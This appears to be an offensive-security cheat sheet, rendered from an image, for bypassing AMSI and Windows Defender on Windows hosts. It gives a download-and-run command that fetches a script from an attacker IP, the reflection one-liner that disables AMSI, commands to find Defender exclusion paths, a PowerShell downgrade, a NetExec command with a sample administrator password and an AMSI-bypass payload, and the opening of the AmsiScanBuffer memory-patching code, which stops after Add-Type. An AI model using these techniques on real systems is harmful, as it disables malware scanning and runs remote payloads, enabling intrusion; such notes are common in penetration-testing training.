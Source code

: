 ```powershell

# AMSI BYPASS / OBFUSCATION
https://github.com/klezVirus/Chameleon
uv run chameleon.py -l 5 -a -o test.ps1 Inv-Pow.ps1 
# IF NISHANG REVSHELL FAILS, USE https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
powershell iex(iwr -usebasicparsing 10.10.14.2/test.ps1)

https://github.com/Flangvik/ObfuscatedSharpCollection
Find Defender exclusions https://blog.fndsec.net/2024/10/04/uncovering-exclusion-paths-in-microsoft-defender-a-security-research-insight/

Get-WinEvent -LogName "Microsoft-Windows-Windows Defender/Operational" -FilterXPath "*[System[(EventID=5007)]]" | Where-Object { $_.Message -like "*Exclusions\Paths*" } | Select-Object -Property TimeCreated, Id, Message | Format-List
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"





# PowerShell Downgrade
https://github.com/trustedsec/unicorn
PowerShell -Version 2
# PowerShell Reflection
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# Patching AMSI Bypass
https://github.com/rasta-mouse/AmsiScanBufferBypass
https://rastamouse.me/memory-patching-amsi-bypass/
# Automation tools
http://amsi.fail/
https://github.com/RythmStick/AMSITrigger
C:\Users\Tryhackme\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3

# Try this to check if AMSI blocks or detects malware
PS > 'AmsiUtils'
PS > 'Invoke-Mimikatz'


nxc 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable'  --amsi-bypass /path/payload

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32
```